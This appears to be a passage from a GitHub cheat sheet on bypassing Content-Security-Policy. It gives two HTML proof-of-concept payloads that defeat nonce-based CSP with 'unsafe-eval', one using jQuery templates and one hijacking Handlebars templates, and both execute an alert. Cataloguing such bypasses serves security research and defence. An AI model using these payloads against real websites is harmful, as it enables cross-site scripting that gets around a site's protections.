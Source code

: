 It was patched in jQuery 3.0.0, check out https://github.com/jquery/jquery/issues/2432

### nonce bypass via jQuery templates

jQuery templates can be used to bypass a CSP that sets `nonce` and `unsafe-eval` (that is required for runtime template compilation).

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-secret' 'unsafe-eval';">
    <script nonce=secret src="https://code.jquery.com/jquery-3.1.1.js"></script>
    <script nonce=secret src="http://ajax.microsoft.com/ajax/jquery.templates/beta1/jquery.tmpl.js"></script>
    <script nonce=secret type="text/javascript">
        jQuery(function(){
            $("#x").tmpl([{}])
        });
    </script>
</head>
<body>
    <div id="x">${alert.bind(window)(1)}</div>
</body>
```

### nonce bypass via hijacking handlebar templates

Handlebar templates can be used to bypass a CSP that sets `nonce` and `unsafe-eval` (that is required for runtime template compilation).

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-secret' 'unsafe-eval';">
    <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.1/jquery.min.js"></script>
    <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/handlebars.js/1.3.0/handlebars.js"></script>
</head>
<body>
    <script id="csp-template" type="text/x-handlebars-template">
        <script>alert("I am injected via XSS")<{{!}}/script>
    </script>
    <script id="csp-template" type="text/x-handlebars-template">
        <h1>I am legit</h1>
    </script>
    <div id="csp-placeholder"></div>
    <script nonce="secret">
        var cspSource = $("#csp-template").html();
        var cspTemplate = Handlebars.compile(cspSource);
        $("#csp-placeholder").html(cspTemplate());
    </script>
  </body>
</html>
```
